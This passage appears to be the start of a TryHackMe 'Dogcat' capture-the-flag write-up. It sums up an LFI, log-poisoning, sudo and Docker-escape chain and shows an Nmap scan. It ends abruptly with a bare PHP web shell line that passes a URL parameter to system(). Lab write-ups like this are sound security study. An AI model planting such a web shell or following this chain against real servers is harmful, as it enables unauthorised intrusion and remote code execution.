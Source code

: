 ```yaml
---
title: TryHackMe | Dogcat
description: Writeup of a medium-rated Linux Machine from TryHackMe
date: 2023-04-28 12:00:00 -500
categories: [Machines, TryHackMe]
tags: [Web Exploitation, LFI, PHP, Log Poisoning, Metasploit, Web Delivery, Meterpreter, BurpSuite, suid, env, Misconfigured SUDO, docker, docker-escape, docker-breakout, backdoor]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/thm-dogcat/dogcat.png
---
```


***

<center><strong><font color="DarkGray"><a href="https://tryhackme.com/room/dogcat" target="_blank"><er>Dogcat</er></a> is a vulnerable machine which focuses primarily on web exploitation, specifically the exploitation of an LFI vulnerability with the implementation of various bypassing techniques. To gain an initial foothold, a Log Poisoning attack can be utilized to achieve remote code execution on the server. After gaining access, several indications suggest that we are within a Docker container, where a misconfigured SUDO can be exploited to become a root user, but only within the container. To escape from the container, a vulnerable backup bash script that runs every minute, can be exploited to gain root access on the host.</font></strong></center>

***

## **<strong><font color="Brown">Enumeration</font></strong>**
***
### **<strong><font color="DarkCyan">Scanning</font></strong>**

As always, let's start the enumeration process by scanning the target machine with ```Nmap```:
```bash
$ nmap -sC -sV -A -T4 -p- 10.10.3.151
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-25 15:45 EDT
Nmap scan report for 10.10.3.151
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2431192ab1971a044e2c36ac840a7587 (RSA)
|   256 213d461893aaf9e7c9b54c0f160b71e1 (ECDSA)
|_  256 c1fb7d732b574a8bdcd76f49bb3bd020 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   183.82 ms 10.8.0.1
```

[Output]: <?php system($_GET['cmd']); ?>